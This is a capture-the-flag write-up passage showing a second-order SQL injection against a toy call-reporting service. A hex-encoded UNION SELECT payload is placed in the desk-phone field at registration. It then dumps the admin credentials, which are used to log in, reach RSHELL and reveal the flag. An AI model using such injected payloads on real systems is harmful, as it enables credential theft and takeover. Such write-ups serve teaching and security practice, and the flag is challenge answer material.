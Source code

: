     guest ~ $ REGISTER
    Please fill the informations below :
    
    Login : i
    Firstname : i
    Lastname : i
    Contact (DESK PHONE) : 0x3120554e494f4e2053454c454354206c6f67696e2c70617373776f72642c7269676874732c6e756c6c2046524f4d207573657273205748455245207269676874733d2761646d696e27
    Password : i
    Encrypting using 128x(ROT13) ......HAAAAAAAAX......
    Password encryption done ! (Security First) !
    
    i ~ $ HISTORY
    RAPTOR CALL REPORTING
    - CLIENT INFO :
    
    +-----------+---------------------------------------------------------------------------+
    |  USERNAME |                                     i                                     |
    |   RIGHTS  |                                    user                                   |
    | DESKPHONE | 1 UNION SELECT login,password,rights,null FROM users WHERE rights='admin' |
    +-----------+---------------------------------------------------------------------------+
    
     - CALL HISTORY

    +-------------+------------+-------------+----------+
    |      ID     |    DATE    | DESTINATION | DURATION |
    +-------------+------------+-------------+----------+
    | w.eshmaggle | Hanlbatard |    admin    |   None   |
    +-------------+------------+-------------+----------+

We login as the admin user and user the `RSHELL` command:

    guest ~ $ AUTH w.eshmaggle Hanlbatard
    Welcome w.eshmaggle !
    w.eshmaggle ~ $ RSHELL
    Ok, ok good job. You are admin... The flag is : 0eb80d9c2cdee95b461cf0b70d40791f

**Flag: 0eb80d9c2cdee95b461cf0b70d40791f**
